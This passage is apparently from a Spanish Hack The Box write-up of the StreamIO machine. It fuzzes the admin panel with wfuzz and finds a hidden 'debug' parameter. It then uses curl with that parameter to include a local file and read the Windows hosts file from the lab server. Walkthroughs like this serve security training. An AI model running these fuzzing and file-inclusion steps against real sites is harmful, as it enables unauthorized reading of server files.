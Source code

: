 ![](/assets/images/htb-streamio/streamio9.png)
Vemos que hay varias opciones, las cuales se traducen en parametros... no encontramos ninguno muy interesante, pero a lo
mejor no se estan mostrando todos los posibles
```bash
└─$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' \
 -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" --hh 1678
000001575:   200        49 L     137 W      1712 Ch     "debug"                                               
000003530:   200        10766    25810 W    319472 Ch   "movie" 
000005450:   200        398 L    916 W      12484 Ch    "staff"
000006133:   200        122 L    295 W      3928 Ch     "user"
```

¿Que podemos hacer con debug? Si ponemos un comando no sale nada
```bash
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=whoami' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$"
                           ****** Admin panel ******
===============================================================================
    * User_management
    * Staff_management
    * Movie_management
    * Leave_a_message_for_admin
===============================================================================
                      this option is for developers only
```
Pero si ponemos una ruta que sabemos que existe en windows `C:\Windows\System32\drivers\etc\hosts`
```bash
└─$ curl -sk 'https://streamio.htb/admin/index.php?debug=C:\Windows\System32\drivers\etc\hosts' -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7" | html2text | grep -v "^$"
(...)
    * Leave_a_message_for_admin
===============================================================================
this option is for developers only# Copyright (c) 1993-2009 Microsoft Corp. # #
This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # # This file
  contains the mappings of IP addresses to host names. Each # entry should be
```                  
Interesante sería ver el codigo fuente de la web, pero no sabemos cual es la ruta aunque intentemos adivinar
```
```